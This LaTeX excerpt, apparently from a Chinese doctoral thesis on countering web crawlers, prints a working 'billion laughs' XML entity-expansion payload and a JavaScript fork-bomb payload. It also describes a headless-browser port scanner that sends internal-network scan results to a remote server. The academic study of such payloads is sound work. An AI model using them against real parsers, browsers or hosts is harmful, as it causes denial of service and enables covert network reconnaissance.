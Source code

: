 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
如下所示是billion laugh的攻击载荷，通过大量的参数实体间的相互引用，使得最后输出的xml内容中包含指数级数量的lol字符串。
\lstset{language=JavaScript}
\begin{lstlisting}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
\end{lstlisting}

如下所示是js fork bomb的攻击载荷，该攻击载荷通过指数级的fork来耗尽对爬虫宿主系统的计算资源，直至其无法再fork新的进程为止：
\lstset{language=JavaScript}
\begin{lstlisting}
function die () {
  setTimeout(function () {die(); die()}, 0)
}
die();
\end{lstlisting}


\subsection{示例端口扫描程序}

该攻击载荷用于在爬虫所使用的无头浏览器中运行，获取爬虫所在宿主机内网中的端口开放情况。因为unsafe ports的浏览器安全机制的限制，部分关键端口无法扫描。扫描完成后，会将扫描结果通过窗口跳转机制传输到指定的服务器上。
\end{document}

